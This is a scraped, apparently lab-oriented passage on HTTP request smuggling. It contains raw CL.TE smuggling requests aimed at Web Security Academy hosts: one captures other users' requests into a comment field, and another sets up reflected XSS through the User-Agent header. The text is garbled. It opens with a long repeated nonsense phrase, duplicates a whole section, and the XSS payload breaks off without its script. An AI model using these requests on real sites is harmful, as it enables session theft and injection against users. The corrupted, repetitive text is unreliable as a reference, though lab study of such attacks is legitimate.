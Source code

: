 vItlhutlhlaHbe'chugh vaj qawHaq jatlh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vaj qawHaq jatlh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vaj qawHaq jatlh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vaj qawHaq jatlh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vaj qawHaq jatlh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vaj qawHaq jatlh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vaj qawHaq jatlh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vaj qawHaq jatlh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vaj qawHaq jatlh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vaj qawHaq jatlh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vaj qawHaq jatlh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vaj qawHaq jatlh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vaj qawHaq jatlh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vaj qawHaq jatlh vItlhutlhlaHbe'chugh vItlhutlhlaHbe'chugh vaj qawHaq jatlh vItlhutlhlaHbe'chugh vItlhutlhlaH
```
POST / HTTP/1.1
Host: ac031feb1eca352f8012bbe900fa00a1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 319
Connection: keep-alive
Cookie: session=4X6SWQeR8KiOPZPF2Gpca2IKeA1v4KYi
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: ac031feb1eca352f8012bbe900fa00a1.web-security-academy.net
Content-Length: 659
Content-Type: application/x-www-form-urlencoded
Cookie: session=4X6SWQeR8KiOPZPF2Gpca2IKeA1v4KYi

csrf=gpGAVAbj7pKq7VfFh45CAICeFCnancCM&postId=4&name=asdfghjklo&email=email%40email.com&comment=
```
### HTTP request smuggling to exploit reflected XSS

HTTP Request Smuggling can be leveraged to exploit web pages vulnerable to **Reflected XSS**, offering significant advantages:

* Interaction with the target users is **not required**.
* Allows the exploitation of XSS in parts of the request that are **normally unattainable**, like HTTP request headers.

In scenarios where a website is susceptible to Reflected XSS through the User-Agent header, the following payload demonstrates how to exploit this vulnerability:

---

### HTTP request smuggling to exploit reflected XSS

HTTP Request Smuggling can be leveraged to exploit web pages vulnerable to **Reflected XSS**, offering significant advantages:

* Interaction with the target users is **not required**.
* Allows the exploitation of XSS in parts of the request that are **normally unattainable**, like HTTP request headers.

In scenarios where a website is susceptible to Reflected XSS through the User-Agent header, the following payload demonstrates how to exploit this vulnerability:
```
POST / HTTP/1.1
Host: ac311fa41f0aa1e880b0594d008d009e.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Cookie: session=ac311fa41f0aa1e880b0594d008d009e
Transfer-Encoding: chunked
Connection: keep-alive
Content-Length: 213
Content-Type: application/x-www-form-urlencoded

0

GET /post?postId=2 HTTP/1.1
```